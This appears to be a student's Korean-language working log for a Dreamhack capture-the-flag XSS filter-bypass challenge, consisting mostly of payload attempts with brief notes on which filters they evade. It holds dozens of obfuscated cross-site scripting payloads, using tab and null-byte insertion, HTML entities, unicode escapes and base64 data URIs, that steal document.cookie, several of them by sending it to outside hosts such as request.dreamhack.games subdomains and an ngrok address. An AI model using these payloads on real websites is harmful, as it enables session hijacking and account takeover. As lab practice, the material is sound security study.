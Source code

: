 <script src="data:,document['locatio'+'n'].href = "/memo?memo=" + document.cookie;"></script>

<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">

<scr%09ipt>documen%09t['locatio'+'n'].href = "https://ltiufnz.request.dreamhack.games/?memo=" 
+ documen%09t.cookie;</scr%09iptipt>

<img src="n/a" onerror="alert(document.cookie)"/>
<img src='wrongLocation.jpg' o\tNError="lO\tcAtion.href='/memo?memo='+dOcu\tMent.cookie;" />
<iframe srcdoc='<img src=about: o&#110;error=parent.alert(document.cookie)>'></iframe>

<script> Boolean[decodeURI('%63%6F%6E%73%74%72%75%63%74%6F%72')](      
decodeURI('%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29'))(); 
</script>

<img srcdoc="data:text/plain;base64,PCYjeDczO2NyaXB0PmZldGNoKCcvbWVtbz9tZW1vPScrZG9jdW1lbnQuY29va2llKTwvJiN4NzM7Y3JpcHQ+"/>
<img src="data:image/png;base64;,PGltZyBzcmM9J3dyb25nTG9jYXRpb24uanBnJyBvbkVycm9yPSJsb2NhdGlvbi5ocmVmPScvbWVtbz9tZW1vPScrZG9jdW1lbnQuY29va2llOyIgLz4="/>

<s%00c%00r%00i%00p%00t>%00a%00l%00e%00r%00t%00'%001%00'</%00s%00c%00r%00i%00p%00t>
<img src="/error" o%00n%00e%00rr%00or=“lo%00ca%00tio%00n.href=’/memo?memo=’+d%00oc%00um%00ent.cookie”>
<s%00c%00r%00i%00p%00t>d%00o%00c%00u%00m%00e%00n%00t['locatio'+'n'].href = "/memo?memo=" + d%00o%00c%00u%00m%00e%00n%00t.cookie;</s%00c%00r%00i%00p%00t>
<s%00c%00r%00i%00p%00t>%00l%00o%00c%00a%00t%00i%00o%00n.href = "https://zcvhcky.request.dreamhack.games/?memo=" + d%00o%00c%00u%00m%00e%00n%00t.cookie;</s%00c%00r%00i%00p%00t>

가설 1 : <img src='wrongLocation.jpg' onError="location.href='/memo?memo='+document.cookie;" />
이 기본적인 페이로드로도 충분히 뚫린다. 따라서 중요한 건 필터링 되어 있는 부분들만 잘 우회하는 것이다
-> 가설 1이 아니라는 건 검증되었다. 필터링을 우회하는 과정에서 유효성이 떨어져서 효과가 없게 되는 건가? 
그니까 javascript로서의 문법이 지켜지질 못해서?

문제의 구성 자체는 너무 단순하다 
필터링되는 태그들이 존재하고 
그걸 우회해서 xss를 하면 성공이다 
-> 라고 생각했는데 %09 로도.. 오 그리고 
<scripont>locatioonn.href = "/memo?memo=" %2b documenont.cookie;</scripont>
<scronipt>document['locatio'+'n'].href = "/memo?memo=" + document.cookie;</scronipt>
이것만 봐도 너무 확연하게 드러난다. location.href로 경로 지정을 해주는 것도 이미 그 자체로 충분히 
유효하다고 생각했는데 사실 비슷한 우회 방식을 사용해도 위에 것은 효과가 없다. (가장 단적으로 보여준다)

가설 2 : <\u0073\u0063\u0072\u0069\u0070\u0074 src="data:,\u0064\u006f\u0063\u0075\u006d\u006e\u0065\u0074['locatio'+'n'].href = "/memo?memo=" + \u0064\u006f\u0063\u0075\u006d\u006e\u0065\u0074.cookie;"></\u0073\u0063\u0072\u0069\u0070\u0074>
사실 핵심적으로 연결되어있지만 
페이로드 자체를 바꾸어 보았다. 

<\u0073cript>\u0064ocument['locatio'+'n'].href = "/memo?memo=" + \u0064ocument.cookie;</\u0073cript>
<script>document['locatio'+'n'].href = "http://RANDOMHOST.request.dreamhack.games/?memo=" + document.cookie;</script>


<iframe srcdoc='<script src="data:text/javascript,alert(document.cookie)"></script>'></iframe>
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>

<iframe src="data: , 
  <script>
    alert(document.cookie)
  </script>
">
</iframe>

<iframe src="javascript://youtube.com#%0afetch('https://zxxhanj.request.dreamhack.games/'+document.cookie)"></iframe>
이 페이로드가 너무 절묘하다 -> 계속 보다보면 확실히 직감이 발휘되는 것 같긴 하다 
이 페이로드 자체는 굉장히 잘 맞아떨어질 수 있는 형태를 가지고 있었으니까 

<iframe src="javascri%09pt:locatio%09n.href='https://osjauno.request.dreamhack.games/memo?memo='%2bdocumen%09t.cookie">
<iframe src="javascrip%00t:locatio%00n.href='/memo?memo='%2bdocumen%00t.cookie">
<iframe src="javascrip%0at:locatio%0an.href='/memo?memo='%2bdocumen%0at.cookie">

<iframe src="javascri%09pt:#fetch''https://csighyf.request.dreamhack.games/memo?memo='%2bdocumen%09t.cookie'"></iframe>
<iframe src="javascri%09pt:fetch''https://csighyf.request.dreamhack.games/memo?memo='%2bdocumen%09t.cookie'"></iframe>
<iframe src="javascrip t:locatio n.href='/memo?memo='+documen t.cookie">

필터링 단어들을 공백으로 치환하지 않고 filtered란 단어를 출력하게 하였다.

Exploit Tech: XSS Filtering Bypass - I에서 보면 URI 정규화 관련 내용이 나온다.

정규화 과정을 이용해서 접근해보았다. %09(\t), %0a(\n)을 이용하면 된다. : <iframe src="javascri%09pt:alert`1`"> --> alert(1) 실행된다. 흠... 
<iframe src="javascri%09pt:alert`1`">
이걸로 xss가 된다는 거 자체가 
1)iframe src로 넣어서 javascript를 실행할 수 있다는 의미 
2)%09를 넣어서 javascript 필터링을 우회할 수 있다는 의미 -> location이랑 document에도 유효하다 ..
3) ' ' 를 넣어서 ( ) 괄호 필터링을 우회할 수 있다는 의미  

테스트 쿠키를 만든 뒤 /vuln 페이지에서 아래의 페이로드를 보내면 쿠키 값이 메모장에 출력된다. : <iframe src="javascri%09pt:locatio%09n.href='/memo?memo='%2bdocumen%09t.cookie">

flag 페이지에서 입력할 때 아래 payload 그대로 넣어야 동작한다. (/vuln 페이지에 페이로드를 넣고 소스페이지에서 확인)

payload : <iframe src="javascrip t:locatio n.href='/memo?memo='+documen t.cookie"> 
(걔가 한 말은 이해가 되었다. 걔가 했던 말은 /vuln 페이지에 페이로드를 넣으면 
url encoding 되는 걸 실시간으로 볼 수 있으니까 위에 나온 최종 페이로드처럼 
저렇게 나올 수 있는 우회할 값을 정확히 넣을 때 원하는 플래그를 얻을 수 있다는 뜻이었다) 
->%20은 전형적인 띄어쓰기인데 이걸로는 상관이 없었다 -- flag가 나오지 않았다 
<iframe src="javascri%09pt:locatio%09n.href='/memo?memo='%2bdocumen%09t.cookie">
<iframe src="javascri%0apt:locatio%0an.href='/memo?memo='%2bdocumen%0at.cookie">
<iframe src="javascri%09pt:locatio%09n.href='/memo?memo='%2bdocumen%20t.cookie">
<iframe src="javascri%0dpt:locatio%0dn.href='/memo?memo='%2bdocumen%0dt.cookie">
-- 여기 있는 부분은 위에 나온 최종 페이로드와 정확히 일치하게 나오질 않는다 
<iframe src="javascrip+t:locatio+n.href='/memo?memo='%2bdocumen+t.cookie">
<iframe src="javascrip+t:locatio/**/n.href='/memo?memo='%2bdocumen/**/t.cookie">
<iframe src="javascri%09pt:locatio%09n.href='/memo?memo='%2bdocumen%09t.cookie">
<img src='wro%09ngLocatio%09n.jpg' o%09nError="locatio%09n.href='/memo?memo='+docume%09nt.cookie;" />
<iframe src="javascri%09pt:locatio%09n.href='/memo?memo='%2bdocumen%09t.cookie">
가설 1이 아니었네.. 똑같은 걸 해서 결국엔 우회만 하면 될 줄 알았는데 그게 아니었음 

<iframe src="javascri%09pt:alert'documen%09t.domain'"></iframe>

<iframe srcdoc="<scr%09ipt>alert'docume%09nt.domain'</scr%09ipt>"></iframe>

<script>location.href="/memo?memo="+document.cookie;</script> 
<iframe srcdoc="<scr%09ipt>locatio%09n.href="/memo?memo="+docume%09nt.cookie;</scr%09ipt>"></iframe>

<iframe src="data:text/html;,<script>alert(document.domain)</script>"></iframe>
그러므로 iframe은 굳이 data scheme(data:)를 사용해도 이득이 없네요. 
iframe은 <iframe srcdoc="<script>alert(document.domain)</script>"></iframe>처럼 <iframe srcdoc="HTML CODE">
를 사용해야지 부모창의 쿠키에 접근할 수 있습니다.
>>iframe은 data scheme을 사용하는 게 아니라 html code를 써야 한다... 

<iframe src="javascri%09pt:fetch''https://rrvcigy.request.dreamhack.games/memo?memo='+documen%09t.domain'"></iframe>
-> 그냥 단순 따옴표 문제는 아니겠지... 설마... 설마... 설마..... 
<iframe src="javascri%09pt:alert'documen%09t.domain'"></iframe>

<iframe srcdoc="<scrip%09t>fetch('/memo?memo='%2bdocumen%09t.cookie)</scrip%09t>">
<iframe srcdoc="<&#x73;cript>fetch('/memo?memo='+document.cookie)</&#x73;cript>">
그냥 bypass로 실험하면서 알게 된건데.. 페이로드 자체에 문제가 있는 듯하다. 
근데 문제점이라는 게 과연 뭔지 모르겠다... 
일단 일반론적인 차원으로 정리하면 <script> 태그의 경우 %09를 넣는다고 우회가 되진 않는다 
뜻이 없는 것처럼 처리된다. 
javascript의 경우 완벽히 정확하게 값을 넣어야 처리되기 때문인 건가 
그니까 조금 더 추상적인 차원으로 정리해보면, 내가 여기서 시도한 부분은 
기본적인 조건이 충족된 상태에서(location.href, script, iframe 등) + 필터링을 우회하는 것이었다
그래서 필터링 우회에 내가 아는 선에서 가장 유효했던 %09를 이용했지만 
나머지 조건을 완벽히 충족시켜주어도 payload가 유효하지 않다는 결론만 얻게 되었다.  
<iframe src="javascri%09pt:locatio%09n.href='/memo?memo='+documen%09t.cookie">

<iframe srcdoc="<img src='wroonngLocatioonn.jpg' oonnError="locatio%09n.href='/memo?memo='+document.cookie;" />">
<img src='wro%09ngLocatio%09n.jpg' o%09nError="locatio%09n.href='/memo?memo='+docume%09nt.cookie;" />
<scrip%09t>locatio%09n.href = "/memo?memo=" + documen%09t.cookie;</scrip%09t>
<scripont>locatioonn.href = "/memo?memo=" %2b documenont.cookie;</scripont>
<scronipt>document['locatio'+'n'].href = "/memo?memo=" + document.cookie;</scronipt>
<scrip%09t>document['locatio'+'n'].href = "/memo?memo=" + document.cookie;</scrip%09t>

<img src=@ onerror=location.href="https://jytoplk.request.dreamhack.games/".concat(document.cookie)>
<iframe srcdoc="<img src=@ o%09nerror=documen%09t['locatio'+'n'].href="/memo?memo=".co%09ncat'documen%09t.cookie'>"></iframe>
<iframe%20src="javascrip%09t:locatio%09n.href=%27/memo?memo=%27+documen%09t.cookie">
<iframe src="javascri%09pt:locatio%09n.href='https://hvpsjdk.request.dreamhack.games/memo?memo='+documen%09t.cookie">
<iframe src="javascri%09pt:locatio%09n.href='/memo?memo='+documen%09t.cookie">
페이로드가 적절한데도 불구하고 아무런 값이 나오질 않는다. 정말로 다른 점을 1도 모르겠다.. 
<iframe%20src="javascrip%09t:locatio%09n.href=%27/memo?memo=%27%2bdocumen%09t.cookie">
<iframe src="javascrip%09t:locatio%09n.href=%27https://vvnhexw.request.dreamhack.games/memo?memo=%27%2bdocumen%09t.cookie">
<iframe src="javascrip	t:locatio	n.href='/memo?memo='+documen	t.cookie">
일단 한 발짝 물러서는 게 맞다고 판단했다 
일단 경로 문제는 아니다.. 그리고 필터링을 통과하는 것도 확인했으니 필터링 문제도 아니다 경로나 필터링은 둘 다 괜찮다 
flag=DH{---secret---}    raw 데이터 형식 그대로 였음 

